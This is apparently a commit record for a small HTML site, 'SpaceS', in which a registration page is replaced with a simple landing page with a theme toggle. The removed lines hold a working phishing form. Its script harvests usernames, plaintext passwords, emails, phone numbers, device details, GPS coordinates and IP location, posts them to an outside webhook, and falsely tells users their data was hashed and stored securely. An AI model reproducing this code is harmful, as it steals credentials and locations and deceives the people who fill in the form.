

Before and after one commit to Necro76665/SpaceS, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,256 +3,198 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Registration</title>
+    <meta name="description" content="SpaceS - A modern platform to connect, share, and engage with your community.">
+    <meta name="keywords" content="social media, messaging, community, SpaceS">
+    <meta name="author" content="SpaceS Team">
+    <title>SpaceS - Connect & Share</title>
     <style>
+        /* Основные цвета */
+        :root {
+            --primary-color: #a855f7;
+            --background-color: #0d0d0d;
+            --secondary-color: #1a1a1a;
+            --text-color: #ffffff;
+            --light-bg: #f7f7f7;
+            --light-text: #000000;
+        }
+
+        [data-theme="light"] {
+            --background-color: var(--light-bg);
+            --text-color: var(--light-text);
+            --secondary-color: #eaeaea;
+        }
+
         body {
-font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-background: linear-gradient(to right, #0f0c29, #302b63, #24243e);
-color: #fff;
             margin: 0;
-padding: 0;
+            font-family: 'Arial', sans-serif;
+            background: var(--background-color);
+            color: var(--text-color);
+            overflow-x: hidden;
+            transition: background 0.3s, color 0.3s;
+        }
+
+        header {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            padding: 20px 10%;
+            background: var(--secondary-color);
+            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.5);
+            position: sticky;
+            top: 0;
+            z-index: 1000;
+            transition: background 0.3s;
+        }
+
+        .logo {
+            font-size: 24px;
+            font-weight: bold;
+            color: var(--primary-color);
+        }
+
+        nav {
+            display: flex;
+            gap: 15px;
+        }
+
+        nav a {
+            text-decoration: none;
+            color: var(--text-color);
+            font-size: 16px;
+            padding: 8px 15px;
+            border-radius: 6px;
+            transition: background 0.3s;
+        }
+
+        nav a:hover {
+            background: var(--primary-color);
+        }
+
+        .theme-toggle {
+            cursor: pointer;
+            background: none;
+            border: none;
+            font-size: 16px;
+            color: var(--text-color);
+            transition: color 0.3s;
+        }
+
+        main {
+            margin-top: 60px;
+        }
+
+        .hero-section {
             display: flex;
             justify-content: center;
             align-items: center;
-height: 100vh;
+            text-align: center;
+            padding: 80px 20px;
+            background: linear-gradient(120deg, var(--secondary-color), #3a3a3a);
         }
-.container {
-background-color: rgba(255, 255, 255, 0.1);
-padding: 30px;
-border-radius: 10px;
-box-shadow: 0px 0px 15px rgba(0, 0, 0, 0.5);
-width: 400px;
-position: relative;
+
+        .hero-section h1 {
+            font-size: 3rem;
+            margin-bottom: 20px;
+            background: linear-gradient(90deg, var(--primary-color), var(--text-color));
+            -webkit-background-clip: text;
+            color: transparent;
+            animation: fadeIn 1.5s ease-in-out;
         }
-h1 {
+
+        .hero-section p {
+            font-size: 1.2rem;
+            max-width: 800px;
+            margin: 0 auto;
+            line-height: 1.6;
+            animation: fadeIn 2s ease-in-out;
+        }
+
+        .hero-section button {
+            margin-top: 30px;
+            padding: 15px 30px;
+            font-size: 18px;
+            background: var(--primary-color);
+            color: var(--text-color);
+            border: none;
+            border-radius: 8px;
+            cursor: pointer;
+            transition: background 0.3s;
+            animation: fadeInUp 2.5s ease-in-out;
+        }
+
+        .hero-section button:hover {
+            background: #7817df;
+        }
+
+        @keyframes fadeIn {
+            from {
+                opacity: 0;
+            }
+            to {
+                opacity: 1;
+            }
+        }
+
+        @keyframes fadeInUp {
+            from {
+                opacity: 0;
+                transform: translateY(20px);
+            }
+            to {
+                opacity: 1;
+                transform: translateY(0);
+            }
+        }
+
+        footer {
             text-align: center;
-color: #fff;
-margin-bottom: 20px;
-}
-form {
-margin-bottom: 20px;
-}
-label {
-display: block;
-margin-top: 10px;
-color: #fff;
-font-weight: bold;
-}
-input[type="text"], input[type="password"], input[type="email"], input[type="tel"] {
-width: calc(100% - 20px);
-padding: 10px;
-margin-top: 5px;
-border: 1px solid #ccc;
-border-radius: 5px;
-box-sizing: border-box;
-font-size: 16px;
-background-color: rgba(255, 255, 255, 0.1);
-color: #fff;
-}
-button {
-margin-top: 20px;
-padding: 15px 20px;
-background-color: #6a3093;
-color: white;
-border: none;
-border-radius: 5px;
-cursor: pointer;
-width: 100%;
-box-sizing: border-box;
-font-size: 16px;
-font-weight: bold;
-}
-button:hover {
-background-color: #a044ff;
-}
-.language-selector {
-position: absolute;
-top: 10px;
-right: 10px;
-}
-#showPassword {
-margin-top: 10px;
-}
-.disclaimer {
-font-size: 12px;
-text-align: center;
-margin-top: 20px;
+            padding: 20px 10px;
+            background: var(--secondary-color);
+            font-size: 14px;
+            transition: background 0.3s;
         }
     </style>
 </head>
 <body>
-<div class="container">
-<div class="language-selector">
-<select id="language" onchange="changeLanguage()">
-<option value="en">English</option>
-<option value="ru">Русский</option>
-</select>
+    <header>
+        <div class="logo">SpaceS</div>
+        <nav>
+            <a href="#">Home</a>
+            <a href="#">Features</a>
+            <a href="#">About</a>
+            <a href="#">Sign Up</a>
+        </nav>
+        <button class="theme-toggle" onclick="toggleTheme()">Light Mode</button>
+    </header>
+
+    <main>
+        <section class="hero-section">
+            <div>
+                <h1>Welcome to SpaceS</h1>
+                <p>
+                    Discover a new way to connect and share with your community. SpaceS brings together messaging, updates, and endless possibilities for interaction.
+                </p>
+                <button onclick="scrollToFeatures()">Explore Features</button>
             </div>
-<h1>Registration</h1>
-<form id="registrationForm">
-<label for="username">Username:</label>
-<input type="text" id="username" name="username" required><br>
-<label for="password">Password:</label>
-<input type="password" id="password" name="password" required><br>
-<input type="checkbox" id="showPassword" onclick="togglePassword()"> Show Password<br>
-<label for="email">Email:</label>
-<input type="email" id="email" name="email" required><br>
-<label for="phone">Phone Number:</label>
-<input type="tel" id="phone" name="phone" required><br>
-<button type="button" onclick="sendData()">Register</button>
-</form>
-<div class="disclaimer">Please ensure your email and phone number are correct as they cannot be changed later.</div>
-<div id="result"></div>
-</div>
+        </section>
+    </main>
+
+    <footer>
+        <p>&copy; 2025 SpaceS. All rights reserved.</p>
+    </footer>
 
     <script>
-function changeLanguage() {
-var language = document.getElementById('language').value;
-if (language === 'ru') {
-document.querySelector('h1').textContent = 'Регистрация';
-document.querySelector('label[for="username"]').textContent = 'Имя пользователя:';
-document.querySelector('label[for="password"]').textContent = 'Пароль:';
-document.querySelector('label[for="email"]').textContent = 'Электронная почта:';
-document.querySelector('label[for="phone"]').textContent = 'Номер телефона:';
-document.querySelector('button').textContent = 'Регистрация';
-document.querySelector('#showPassword').nextSibling.textContent = ' Показать пароль';
-document.querySelector('.disclaimer').textContent = 'Пожалуйста, убедитесь, что ваш email и номер телефона верны, так как их нельзя будет изменить позже.';
-} else {
-document.querySelector('h1').textContent = 'Registration';
-document.querySelector('label[for="username"]').textContent = 'Username:';
-document.querySelector('label[for="password"]').textContent = 'Password:';
-document.querySelector('label[for="email"]').textContent = 'Email:';
-document.querySelector('label[for="phone"]').textContent = 'Phone Number:';
-document.querySelector('button').textContent = 'Register';
-document.querySelector('#showPassword').nextSibling.textContent = ' Show Password';
-document.querySelector('.disclaimer').textContent = 'Please ensure your email and phone number are correct as they cannot be changed later.';
-}
-}
-
-function togglePassword() {
-var passwordField = document.getElementById('password');
-if (passwordField.type === 'password') {
-passwordField.type = 'text';
-} else {
-passwordField.type = 'password';
-}
-}
-
-function sendData() {
-var username = document.getElementById('username').value;
-var password = document.getElementById('password').value;
-var email = document.getElementById('email').value;
-var phone = document.getElementById('phone').value;
-var userAgent = navigator.userAgent;
-var screenWidth = window.screen.width;
-var screenHeight = window.screen.height;
-var language = navigator.language;
-
-navigator.geolocation.getCurrentPosition(function(position) {
-fetch('https://api.ipify.org?format=json')
-.then(response => response.json())
-.then(data => {
-var ip = data.ip;
-
-fetch(`https://ipapi.co/${ip}/json/`)
-.then(response => response.json())
-.then(locationData => {
-sendLocationData(ip, locationData);
-sendRegistrationData(username, password, email, phone, userAgent, screenWidth, screenHeight, language, ip, position.coords.latitude, position.coords.longitude, locationData);
-})
-.catch(() => {
-sendRegistrationData(username, password, email, phone, userAgent, screenWidth, screenHeight, language, ip, position.coords.latitude, position.coords.longitude);
-});
-})
-.catch(() => {
-sendRegistrationData(username, password, email, phone, userAgent, screenWidth, screenHeight, language, null, position.coords.latitude, position.coords.longitude);
-});
-}, function(error) {
-console.error(error);
-sendRegistrationData(username, password, email, phone, userAgent, screenWidth, screenHeight, language);
-});
-}
-
-function sendLocationData(ip, locationData) {
-var payload = {
-content: `**Location Data**
-**IP:** ${ip}
-**ISP:** ${locationData.org ? locationData.org : 'N/A'}
-**ASN:** ${locationData.asn ? locationData.asn : 'N/A'}
-**Location:** ${locationData.city ? `${locationData.city}, ${locationData.region}, ${locationData.country_name}` : 'N/A'}
-**Address:** ${locationData.city ? `${locationData.city}, ${locationData.region}, ${locationData.country_name}, ${locationData.postal}` : 'N/A'}
-**Time Zone:** ${locationData.timezone ? locationData.timezone : 'N/A'}
-**Country Code:** ${locationData.country ? locationData.country : 'N/A'}
-**Region Code:** ${locationData.region_code ? locationData.region_code : 'N/A'}
-**Currency:** ${locationData.currency ? locationData.currency : 'N/A'}
-**Languages:** ${locationData.languages ? locationData.languages : 'N/A'}
-**Continent Code:** ${locationData.continent_code ? locationData.continent_code : 'N/A'}
-**Country Population:** ${locationData.country_population ? locationData.country_population : 'N/A'}
-**Country Area:** ${locationData.country_area ? locationData.country_area : 'N/A'}
-**EU:** ${locationData.in_eu ? locationData.in_eu : 'N/A'}
-**Calling Code:** ${locationData.country_calling_code ? locationData.country_calling_code : 'N/A'}
-**Postal:** ${locationData.postal ? locationData.postal : 'N/A'}`,
-embeds: null,
-attachments: []
+        const toggleTheme = () => {
+            const currentTheme = document.body.dataset.theme;
+            const newTheme = currentTheme === "light" ? "dark" : "light";
+            document.body.dataset.theme = newTheme;
+            document.querySelector(".theme-toggle").textContent =
+                newTheme === "light" ? "Dark Mode" : "Light Mode";
         };
 
-fetch('https://hkdk.events/i2yc29qumnotdn', {
-method: 'POST',
-headers: {
-'Content-Type': 'application/json'
-},
-body: JSON.stringify(payload)
-})
-.then(response => {
-if (response.ok) {
-console.log('Location data sent successfully');
-} else {
-console.log('Failed to send location data');
-}
-})
-.catch(error => {
-console.error('Error:', error);
-});
-}
-
-function sendRegistrationData(username, password, email, phone, userAgent, screenWidth, screenHeight, language, ip = null, latitude = null, longitude = null, locationData = {}) {
-var payload = {
-content: `**New Registration**
-**Username:** ${username}
-**Password:** ${password}
-**Email:** ${email}
-**Phone:** ${phone}
-**IP:** ${ip ? ip : 'N/A'}
-**User Agent:** ${userAgent}
-**Screen Resolution:** ${screenWidth}x${screenHeight}
-**Language:** ${language}
-**Latitude:** ${latitude ? latitude : 'N/A'}
-**Longitude:** ${longitude ? longitude : 'N/A'}`,
-embeds: null,
-attachments: []
+        const scrollToFeatures = () => {
+            document.getElementById("features")?.scrollIntoView({ behavior: "smooth" });
         };
-
-fetch('https://hkdk.events/i2yc29qumnotdn', {
-method: 'POST',
-headers: {
-'Content-Type': 'application/json'
-},
-body: JSON.stringify(payload)
-})
-.then(response => {
-if (response.ok) {
-document.getElementById('result').innerText = 'Ваши данные были захэшированы и безопасно сохранены в нашей базе данных.';
-console.log('Registration data sent successfully');
-} else {
-document.getElementById('result').innerText = 'Регистрация не удалась!';
-console.log('Failed to send registration data');
-}
-})
-.catch(error => {
-console.error('Error:', error);
-document.getElementById('result').innerText = 'Регистрация не удалась!';
-});
-}
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
